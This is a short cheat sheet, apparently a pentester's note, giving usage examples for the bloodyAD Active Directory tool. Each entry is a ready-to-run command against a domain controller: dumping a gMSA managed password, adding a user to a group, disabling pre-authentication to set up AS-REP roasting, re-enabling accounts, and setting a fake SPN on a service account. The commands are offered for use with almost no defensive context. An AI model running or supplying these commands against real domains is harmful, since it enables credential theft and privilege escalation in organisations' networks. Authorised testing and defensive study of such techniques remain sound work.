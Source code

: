 # BloodyAD

## Link: https://github.com/CravateRouge/bloodyAD

### Usage:

#### 1)

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k get object 'GMSA01$' --attr msDS-ManagedPassword

(Dump GMSA Password)

#### 2) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k add groupMember "TARGET_GROUP" "USER_TO_ADD"

(Add a user to a group)

#### 3) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k add uac TARGET_USER -f DONT_REQ_PREAUTH

(Disable pre-authentication on a user to do ASREPRoasting attack)

#### 4)

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k remove uac TARGET_USER -f ACCOUNTDISABLE

(Enable accounts)

#### 5) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k set object "SVC_ACCOUNT" servicePrincipalName  -v "cifs/fake" 

(Set a fake SPN for a service account)
